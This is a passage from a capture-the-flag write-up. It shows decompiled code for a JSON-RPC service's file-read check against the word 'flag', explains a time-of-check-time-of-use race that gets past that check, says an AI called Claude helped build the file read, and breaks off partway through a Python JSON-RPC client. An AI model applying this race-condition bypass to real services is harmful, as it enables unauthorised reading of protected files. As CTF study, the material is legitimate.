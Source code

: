 ```c
            *(error_0 *)opts);
          return;
        }
```
Essentially, if flag is not in the first argument, main_err.tab is not set and this check passes. If the flag is in the first argument, this main_err.tab is set and this check fails (printing `Access denied`). If the check does not fail, it finally goes to this code:
```c
        main_readFileContent(v417, *(string_0 *)&v221, *(error_0 *)&v190.array);
        v311 = (unsigned int)(int)v305;
        v278 = &old;
        v188 = 1LL;
        strings_genSplit(v417, *(string_0 *)(&v188 - 1), 0LL, -1LL, v396);
        if ( v295 <= (__int64)v311 )
        {
          v448.tab = ctxa;
          v448.data = ctx_8;
          v385._type = (internal_abi_Type *)&RTYPE_string;
          v385.data = &off_5E3E88;
          github_com_sourcegraph_jsonrpc2__ptr_Conn_Reply(conn, v448, req->ID, v385, *(error_0 *)opts);
          return;
        }
```
To summarize: this reads a file under specific conditions given it does not contain the string flag. **But** these conditions are perfect for a time of check time of use (TOCTOU) vulnerability:
- Sets a global variable to indicate a failed check
- Able to accept multiple connections at once
- Large time delay, allowing us to overwrite a variable
# Crafting a Working File Read
Claude+flocto did this part, essentially you fix a file and upload your own config. That sets `UseFileSystem` to `True`.
```python
import json
import socket

class JsonRpcClient:
    def __init__(self, host='localhost', port=9999):
        self.host = host
        self.port = port
        self.socket = None
        self.request_id = 0

    def connect(self):
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.host, self.port))
        return self

    def send_request(self, method, params=None, response_expected=True):
        self.request_id += 1
        request = {
            "jsonrpc": "2.0",
            "id": self.request_id,
            "method": method,
        }
        if params is not None:
            request["params"] = params

        serialized = json.dumps(request)
        content_length = len(serialized)
        headers = f"Content-Length: {content_length}\r\n\r\n"
        
```